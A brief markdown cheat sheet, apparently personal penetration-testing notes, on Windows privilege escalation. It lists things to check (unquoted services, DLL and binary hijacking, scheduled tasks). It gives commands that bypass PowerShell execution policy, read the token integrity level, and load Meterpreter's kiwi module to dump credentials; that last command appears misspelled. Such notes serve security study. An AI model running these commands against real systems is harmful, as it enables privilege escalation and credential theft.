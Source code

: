 
## Things to look for
- [ ] Unquoted Services
- [ ] DLL Hijacking
- [ ] Binary Hijacking
- [ ] Scheduled Tasks


## Get Integrity Level

```powershell
powershell -ep bypass
```

```powershell
Import-Module NtObjectManager
```

```powershell
Get-NtTokenIntegrityLevel
```

## Kiwi

> [!NOTE]
> In Meterpreter Session

```
load kiwi
```

```
cres_msv
```